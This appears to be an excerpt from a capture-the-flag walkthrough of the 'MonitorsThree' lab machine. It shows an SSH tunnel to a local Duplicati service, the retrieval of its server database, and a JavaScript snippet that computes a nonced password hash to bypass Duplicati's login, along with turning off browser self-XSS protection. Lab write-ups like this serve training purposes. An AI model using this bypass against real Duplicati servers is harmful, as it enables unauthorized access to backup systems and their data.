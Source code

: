 We got something running on port `8200`, let's use ssh tunneling:

`ssh -L 8200:127.0.0.1:8200 marcus@monitorsthree.htb  -i marcus.rsa`


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250117172239.png)

We find something called duplicate, let's search if there's any way to bypass that login page:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250117172342.png)

We find a GitHub PoC to bypass the login authentication using DB Server, here's the repository: [here](https://github.com/duplicati/duplicati/issues/5197)

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250117172442.png)

First, let's locate where `duplicati` is running on the machine:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250117172612.png)

We have `/opt/duplicati`:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250117172643.png)

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250117172655.png)

Following the PoC, we need to download `Duplicati-server.sqlite`:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250117173054.png)

Nice, next step would be searching for a password, and a salt:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250117173615.png)

Let's check out `option`:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250117173635.png)

Next we need to follow is this:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250117173815.png)

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250117173940.png)

So, we need to do this, first, fire up burp, send a random password, intercept the request, click `do intercept -> response to this request` and grab the `session-nonce`, then do the following:

```js
var saltedpwd = '59be9ef39e4bdec37d2d3682bb03d7b9abadb304c841b7a498c02bec1acad87a'; 
var noncedpwd = CryptoJS.SHA256(CryptoJS.enc.Hex.parse(CryptoJS.enc.Base64.parse('session-nonce') + saltedpwd)).toString(CryptoJS.enc.Base64); 
console.log(noncedpwd);
```

```ad-summary
1. enter about:config in the search bar
2. search devtools.selfxss.count and double click
3. change value to 1.
4. `Ctrl+Shift+K`
5. Copy the `noncedpwd` returned.
```
